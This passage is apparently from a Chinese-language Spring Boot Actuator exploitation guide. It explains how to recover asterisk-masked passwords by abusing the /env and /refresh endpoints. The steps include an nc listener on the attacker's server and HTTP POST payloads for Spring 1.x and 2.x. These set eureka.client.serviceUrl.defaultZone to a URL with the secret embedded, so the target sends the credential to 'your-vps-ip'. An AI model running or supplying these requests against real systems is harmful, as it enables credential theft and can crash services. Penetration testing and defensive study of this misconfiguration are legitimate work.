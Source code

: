 > 目标具体情况和存在的 Mbean 可能不一样，可以搜索 getProperty 等关键词，寻找可以调用的方法。



### 0x04：获取被星号脱敏的密码的明文 (方法二)

#### 利用条件：

- 可以 GET 请求目标网站的 `/env` 
- 可以 POST 请求目标网站的 `/env`   
    - **post请求来新增系统的全局变量，或者修改全局变量的值，这个如果修改数据库的链接，可以直接导致当前系统崩溃**，**要注意不要乱post**

- 可以 POST 请求目标网站的 `/refresh` 接口刷新配置（存在 `spring-boot-starter-actuator` 依赖）
- 目标使用了 `spring-cloud-starter-netflix-eureka-client` 依赖
- 目标可以请求攻击者的服务器（请求可出外网）

#### 利用方法：

##### 步骤二： 使用 nc 监听 HTTP 请求

- 在自己控制的外网服务器上监听 80 端口：


```bash
nc -lvk 80
```

##### 步骤三： 设置 eureka.client.serviceUrl.defaultZone 属性

- 将下面 `http://value:${security.user.password}@your-vps-ip`  中的  `security.user.password` 换成自己想要获取的对应的星号 * 遮掩的属性名；


- `your-vps-ip` 换成自己外网服务器的真实 ip 地址。

spring 1.x

```
POST /env
Content-Type: application/x-www-form-urlencoded

eureka.client.serviceUrl.defaultZone=http://value:${security.user.password}@your-vps-ip
```

spring 2.x

```
POST /actuator/env
Content-Type: application/json

{"name":"eureka.client.serviceUrl.defaultZone","value":"http://value:${security.user.password}@your-vps-ip"}
```



##### 步骤四： 刷新配置

spring 1.x

```
POST /refresh
Content-Type: application/x-www-form-urlencoded

```
